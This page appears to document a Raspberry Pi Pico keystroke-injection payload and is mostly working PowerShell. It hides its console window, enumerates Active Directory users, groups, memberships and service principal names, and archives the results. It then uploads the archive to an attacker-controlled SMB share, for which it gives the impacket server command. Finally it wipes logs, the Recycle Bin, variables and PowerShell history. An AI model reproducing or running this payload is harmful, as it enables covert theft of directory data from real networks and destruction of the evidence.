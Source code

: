 ### Overview

**This payload performs the following:**

- minify current powershell window
- basic AD information collection
- Archive logs of information
- Upload log archive to an attacker's smbshare
- Cleanup
    - delete output logs
    - remove smb mapping
    - remove env variables
    - clear history

### Requirements

**Libraries for Pico**

- adafruit_hid/
- adafruit_bus_device/
- adafruit_register/
- adafruit_sdcard.mpy

**Smbserver (on attacker machine)**

- [impacket](https://github.com/SecureAuthCorp/impacket)

Start up the smb server with the following command:

```bash
sudo python3 impacket/examples/smbserver.py -smb2support -username <share_user> -password <share_pass> -ip <attacker_ip> <sharename> <share_path>
```

Example:

```bash
sudo python3 impacket/examples/smbserver.py -smb2support -username dev -password dev -ip 192.168.0.10 tmp /opt/tmp/loot/
```

### Payload Part 1/4

This minify's the powershell window.

```powershell
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")] 
public static extern IntPtr GetConsoleWindow();
[DllImport("user32.dll")]
public static extern bool MoveWindow(IntPtr hWnd, int X, int Y, int W, int H); '
$consoleHWND = [Console.Window]::GetConsoleWindow();
$consoleHWND = [Console.Window]::MoveWindow($consoleHWND, 0, 0, 0, 0);
$pshost = get-host
$pswindow = $pshost.ui.rawui
$newsize = $pswindow.buffersize
$newsize.height = 2000
$newsize.width = 200
$pswindow.buffersize = $newsize
$newsize = $pswindow.windowsize
$newsize.height = 1
$newsize.width = 1
$pswindow.windowsize = $newsize
```

### Payload Part 2/4

Modify these variables to fit your smb server details.

```powershell
$h = "192.168.0.10"
$u = "dev"
$p = "dev"
$share = "tmp"
```

### Payload Part 3/4

This is the bulk of the enumeration and data exfiltration.

```powershell
$dir = "$HOME\Desktop\logs"
mkdir $dir
$log1 = "$dir\log1.txt"
$log2 = "$dir\log2.txt"
$log3 = "$dir\log3.txt"
$log4 = "$dir\log4.txt"
$log5 = "$dir\log5.txt"
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain() >> $log1
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="samAccountType=805306368"
$Searcher.FindAll() >> $log2
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
echo "----------------------------------------------------------------------" >> $log2
$prop >> $log2
}
}
$Searcher.filter="(objectClass=Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
$obj.Properties.name >> $log3
}
foreach($line in [System.IO.File]::ReadLines($log3))
{
$groupname = $line
$Searcher.filter="(name=$groupname)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
$obj.Properties.member >> $log4
}
}
$spns = @("http", "SQL", "sql", "smb")
ForEach ($spn in $spns) {
    $servicename = "http"
    $Searcher.filter="serviceprincipalname=*$servicename*"
    $Result = $Searcher.FindAll()
    Foreach($obj in $Result)
    {
    Foreach($prop in $obj.Properties)
    {
    $prop >> $log5
    }
    }
}
Compress-Archive -LiteralPath $dir -DestinationPath $dir\logs.zip
New-SmbMapping -LocalPath "T:" -RemotePath "\\$h\$share" -Username "$u" -Password "$p"
move-item -path $dir\logs.zip -Destination "\\$h\$share"
```

### Payload Part 4/4

This performs some cleanup

```powershell
Remove-Item $dir -Recurse
Clear-RecycleBin -Force
Remove-SmbMapping -RemotePath "\\$h\$share" -Force
Remove-Variable * -ErrorAction SilentlyContinue
Remove-Item (Get-PSReadlineOption).HistorySavePath
exit
```